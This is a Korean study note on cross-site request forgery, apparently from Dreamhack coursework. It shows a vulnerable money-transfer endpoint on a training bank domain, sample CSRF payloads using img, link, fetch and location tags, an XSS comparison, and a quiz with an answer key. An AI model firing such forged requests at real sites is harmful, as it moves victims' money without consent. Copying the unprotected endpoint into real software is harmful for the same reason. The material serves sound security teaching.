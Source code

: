
# Cross Site Request Forgery (CSRF)

## CSRF
CSRF : 임의 이용자의 권한으로 임의 주소에 **HTTP 요청**을 보낼 수 있는 취약점  
-> 이용자를 속여서, 의도치 않은 요청에 동의하게 하는 공격  

공격자가 악성 스크립트(HTML, Javascript 등)을 넣어서 이용자에게 **메일**을 보내거나 게시판에 **글을 작성**해 이용자가 이를 조회하도록 하는 방식입니다.  

```http
GET /sendmoney?to=dreamhack&amount=1337 HTTP/1.1
Host: bank.dreamhack.io
Cookie: session=IeheighaiToo4eenahw3
```

위의 메시지는 송금 요청하는 예시 request message 입니다.  

```python
# 이용자가 /sendmoney에 접속했을때 아래와 같은 송금 기능을 웹 서비스가 실행함.
@app.route('/sendmoney')
def sendmoney(name):
    # 송금을 받는 사람과 금액을 입력받음.
    to_user = request.args.get('to')
	amount = int(request.args.get('amount'))
	
	# 송금 기능 실행 후, 결과 반환	
	success_status = send_money(to_user, amount)
	
	# 송금이 성공했을 때,
	if success_status:
	    # 성공 메시지 출력
		return "Send success."
	# 송금이 실패했을 때,
	else:
	    # 실패 메시지 출력
		return "Send fail."
```

위의 파이썬 코드는 이전에 적었던 request message를 보내는 코드입니다.

## CSRF 동작

**img 태그**를 사용하거나 웹 페이지에 입력된 양식을 전송하는 **form 태그**를 사용하는 방법이 있습니다.  

<img src="4.png">  

```html
<img src='http://bank.dreamhack.io/sendmoney?to=Dreamhack&amount=1337' width=0px height=0px>
```

위의 코드는 **img** 태그로 만든 공격 코드 예시이다.  

```Javascript
/* 새 창 띄우기 */
window.open('http://bank.dreamhack.io/sendmoney?to=Dreamhack&amount=1337');
/* 현재 창 주소 옮기기 */
location.href = 'http://bank.dreamhack.io/sendmoney?to=Dreamhack&amount=1337';
location.replace('http://bank.dreamhack.io/sendmoney?to=Dreamhack&amount=1337');
```

위에 있는 코드들처럼 **img** 태그나 **location.href** 등을 사용해서 csrf 공격을 합니다.

## CSRF 실습(개편 전 실습, 추후에 추가)

<img src="2.jpg">

위에 있던 송금을 하게끔 csrf 공격을 합니다.

<img src="3.jpg">

다음과 같이 적으면, 한 번 요청되면 1000000원이 송금됩니다.

```html
<img src="/sendmoney?to=dreamhack&amount=1337">
<img src=1 onerror="fetch('/sendmoney?to=dreamhack&amount=1337');">
<link rel="stylesheet" href="/sendmoney?to=dreamhack&amount=1337">
```
위에 있는 코드처럼 여러 방식으로 csrf 공격을 할 수 있습니다.

## XSS와 CSRF 차이

### 공통점

**클라이언트를 대상**으로 하는 공격, **악성 스크립트**를 사용한다.

### 차이점

**목적**이 다르다.

1. **XSS** : **세션 및 쿠키 탈취**를 목적

2. **CSRF** : **HTTP 요청**을 보내는 것을 목적

# 마치며
## 마치며
- **Cross Site Request Forgery (CSRF)**: 사이트 간 요청 위조. **이용자**가 자신의 **의지와는 무관**하게 공격자가 의도한 행위를 **특정 웹사이트에 요청**하게 만드는 공격.

# 퀴즈

1. 서버에서 이용자를 식별하기 위해 쿠키를 사용하고 있어야 CSRF 취약점으로 공격할 수 있다.  
**답 : O**

2. 브라우저는 CSRF 취약점을 방지하기 위한 보안 메커니즘을 제공한다.  
**답 : O**

3. 서버에서 HTTP의 GET 메소드가 아닌 POST 메소드로 데이터를 받으면 CSRF에 안전하다.  
**답 : X**

4. CSRF 공격이 불가능할 때 XSS 공격도 불가능하다.  
**답 : X**